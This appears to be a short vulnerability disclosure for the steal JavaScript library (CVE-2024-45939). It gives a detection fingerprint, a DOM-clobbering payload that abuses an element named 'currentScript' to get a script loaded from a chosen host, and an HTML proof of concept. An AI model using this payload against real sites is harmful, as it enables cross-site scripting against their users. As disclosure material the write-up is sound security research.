 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: CVE-2024-45939
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
